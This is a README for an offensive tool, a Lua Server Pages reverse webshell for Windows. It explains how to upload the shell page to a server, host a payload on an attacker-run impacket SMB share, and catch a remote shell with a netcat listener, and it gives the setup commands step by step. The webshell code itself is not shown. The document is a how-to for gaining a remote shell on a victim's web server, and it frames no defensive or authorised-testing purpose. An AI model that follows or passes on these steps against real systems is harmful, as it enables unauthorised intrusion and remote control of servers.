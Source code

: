# LSP Reverse Shell
A Lua Server Pages reverse webshell for Windows. I noticed there was no '.lsp' webshell of any sort available online, so now there is.

Since the Lua sockets module, the traditional Lua reverse shell method, often isn't installed, this webshell opts instead to execute a reverse shell in-memory off of an SMB share. Be sure to install impacket, if it isn't already installed.
### Usage:
* ```git clone https://github.com/the-emmon/lsp-reverse-shell```
* ```cd lsp-reverse-shell```
* Change the IP address in 'rev.lsp' to your machine.
* ``` sudo smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass' ```
* Start a nc listener in another window.
* Upload the 'rev.lsp' file, open the page, and you should immediately catch a shell.
